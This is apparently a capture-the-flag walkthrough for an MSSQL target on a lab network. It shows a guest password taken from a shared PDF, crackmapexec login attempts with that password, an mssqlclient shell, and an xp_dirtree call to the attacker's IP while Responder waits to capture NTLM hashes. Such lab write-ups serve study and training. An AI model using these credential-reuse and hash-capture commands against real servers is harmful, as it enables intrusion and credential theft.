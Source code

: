 We find a public share with a pdf:
![](attachment/186dce7608689bfc06a397d80c5017b8.png)
There are credentials in the pdf:
![](attachment/95e61c8945fcc7914abf4eca3ffea4f1.png)
Now using mssql login with crackmapexec:
```
cme mssql 10.10.11.202 -u 'PublicUser' -p 'GuestUserCantWrite1'
```

That didn't work so trying local auth:
```
cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCantWrite1'
```
Now it works.
Trying to use mssql_priv module to check privileges it doesn't work:
```
cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCantWrite1' -M mssql_priv
```
Now using mssqlclient.py to get a mssql shell:
```
mssqlclient.py publicuser:GuestUserCantWrite1@sequel.htb
```
![](attachment/08d7ab3569c0f42b7923ccdd75245474.png)
### Responder
- Target:
```
xp_dirtree \\10.10.14.22\fake\share
```
- Attacker:
```
sudo responder -I tun0
```